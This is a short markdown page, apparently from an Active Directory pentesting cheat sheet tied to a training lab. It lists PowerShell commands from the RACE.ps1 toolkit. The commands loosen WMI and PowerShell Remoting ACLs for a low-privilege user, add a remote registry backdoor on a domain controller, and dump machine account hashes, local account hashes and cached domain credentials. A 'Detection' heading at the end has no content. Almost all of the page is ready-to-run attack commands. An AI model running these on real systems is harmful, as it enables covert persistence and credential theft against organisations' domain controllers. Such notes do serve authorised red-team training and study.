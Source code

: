 Using samratashok's [RACE.ps1](https://github.com/samratashok/RACE)

#### WMI

Modify ACLs to allow non-admin users access to securable objects

```powershell
# On local machine for user
Set-RemoteWMI -SamAccountName student572 -Verbose

# On remote machine for user without explicit credentials
Set-RemoteWMI -SamAccountName student572 -ComputerName dcorp-dc -Namespace "root\cimv2" -Verbose

# On remote machine with explicit credentials. Only root\cimv2 and nested namespaces
Set-RemoteWMI -SamAccountName student572 -ComputerName dcorp-dc -Credential Administrator -Namespace "root\cimv2" -Verbose

# Remove permission on remote machine
Set-RemoteWMI -SamAccountName student572 -ComputerName dcorp-dc -Namespace "root\cimv2" -Remove -Verbose
```

#### PowerShell Remoting

Enable PS Remoting

```powershell
# On local machine
Set-RemotePSRemoting -SamAccountName student572 -Verbose

# On remote machine without credentials
Set-RemotePSRemoting -SamAccountName student572 -ComputerName dcorp-dc -Verbose

# Remove permission on remote machine
Set-RemotePSRemoting -SamAccountName student572 -ComputerName dcorp-dc -Remove -Verbose
```

#### Remote Registry

Remote registry changes and backdoors

```powershell
# With admin privs on remote machine, create backdoor
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student572 -Verbose

# As student572, retrieve machine account hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

## Detection
